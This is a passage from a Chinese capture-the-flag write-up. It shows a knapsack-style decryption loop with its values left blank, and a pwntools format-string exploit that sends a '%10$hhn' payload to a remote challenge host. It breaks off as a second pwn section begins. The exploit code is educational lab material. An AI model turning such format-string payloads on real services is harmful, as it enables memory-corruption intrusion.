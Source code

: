 还有考虑一种特殊情况，就是之前的私钥值加上最后一个私钥值大于q的情况

此时需要先减去最后一个私钥值（mod q）,之后同上

```php
for i in range(1):
    r = 
    enc = 
    q = 
    #enc =  encrypt(msg_bit, keyPair[3],keyPair[0],q)
    key = 
    enc = (enc*gmpy2.invert(r,q))%q
    flag = ''
    enc = (enc-key[-1])%q
    flag+='1'
    for i in range(len(key)-2,-1,-1):
        if enc - key[i] > 0:
            enc -= key[i]
            flag =flag+'1'
        else:
            flag+='0'
    print(long_to_bytes(int(str(flag[::-1]),2)))
```

0x03 Pwn
========

pwn1 create\_id
---------------

简单的格式化字符串

```php
from pwn import *

p = remote("123.57.69.203","5310")

addr = int(p.recv(len("0xffefb738")),16)
p.recvuntil('You will get the user id after you finish it.\n')
p.sendline('1')
p.sendlineafter('incorrect','1')
p.sendlineafter('incorrect','1')

p.recvuntil("What's your name?")
payload = p32(addr)+'aaaaa'+"%10$hhn"
p.sendline(payload)

p.interactive()
```

pwn2 sim\_treasure
------------------

也是简单的格式化字符串
